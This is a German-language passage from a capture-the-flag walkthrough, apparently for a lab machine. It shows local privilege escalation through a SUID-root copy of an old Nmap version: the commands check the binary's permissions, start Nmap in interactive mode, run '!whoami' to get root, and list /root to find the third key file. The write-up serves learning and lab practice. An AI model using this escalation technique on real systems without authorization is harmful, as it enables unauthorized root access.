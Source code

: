#### Aufzählung:

Nach ein wenig Recherche fand ich heraus:

[Verknüpfung](https://pentestlab.blog/category/privilege-escalation/) Wie wir unter dem obigen Link lesen können, handelt es sich um eine ältere Nmap-Version. Versionen von 2.02 bis 5.21 hatten die sog. Der interaktive Modus ermöglichte es uns, Befehle auszuführen. Darüber hinaus ermöglicht uns die Überprüfung von `SETUID`, Befehle als root auszuführen.

> ```shell
> $ ls -l /usr/local/bin/nmap
> ls -l /usr/local/bin/nmap
> -rwsr-xr-x 1 root root 504736 Nov 13  2015 /usr/local/bin/nmap
> ```

#### Nmap im interaktiven Modus starten:

Befehl:

> ```shell
> nmap --interactive
> ```

Ausgabe: 

> ```shell
> $ nmap --interactive
> nmap --interactive
>
> Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
> Welcome to Interactive Mode -- press h <enter> for help
> nmap> !whoami
> !whoami
> root
> waiting to reap child : No child processes
> ```

Wir sehen, dass sich Nmap im interaktiven Root-Modus befindet.

#### Suche nach dem letzten Schlüssel:

Wir werden zuerst prüfen, ob sich das dritte Flag in der Wurzel befindet.

Befehl:

> ```shell
> !ls /root
> ```

Ausgabe:

> ```shell
> nmap> !ls /root
> !ls /root
> firstboot_done  key-3-of-3.txt
> waiting to reap child : No child processes
> ```
      